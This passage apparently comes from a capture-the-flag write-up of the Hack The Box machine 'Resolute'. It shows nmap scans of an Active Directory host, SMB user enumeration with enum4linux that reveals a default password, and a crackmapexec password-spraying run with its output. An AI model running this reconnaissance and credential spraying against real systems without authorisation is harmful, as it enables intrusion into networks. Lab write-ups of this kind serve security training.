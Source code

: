 ```ruby
Discovered open port 49677/tcp on 10.10.10.169                                 
Discovered open port 88/tcp on 10.10.10.169                                    
Discovered open port 445/tcp on 10.10.10.169                                   
Discovered open port 139/tcp on 10.10.10.169                                   
Discovered open port 49671/tcp on 10.10.10.169                                 
Discovered open port 389/tcp on 10.10.10.169                                   
Discovered open port 135/tcp on 10.10.10.169                                   
Discovered open port 3269/tcp on 10.10.10.169                                  
Discovered open port 49819/tcp on 10.10.10.169                                 
Discovered open port 49676/tcp on 10.10.10.169                                 
Discovered open port 47001/tcp on 10.10.10.169
``` 
**nmap for more info**
```ruby
❯ sudo nmap -sV -sC -Pn -oN nmap 10.10.10.169
[sudo] password for astrah: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-22 13:44 EST
Nmap scan report for resolute.htb (10.10.10.169)
Host is up (0.29s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-12-22 18:55:49Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```


Smb was enumerated first using **enum4linux**.
The following users were found and saved them into user.txt
![](/images/enum4linux.png)

Going through the enum4linux results i also found a password

`index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!`

using crackmapexec bruteforcing was done on smb using the collected users and the password
```ruby
❯ crackmapexec smb 10.10.10.169 -u user.txt -p Welcome123!
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\Administrator:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\krbtgt:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\ryan:Welcome123! STATUS_LOGON_FAILURE 
```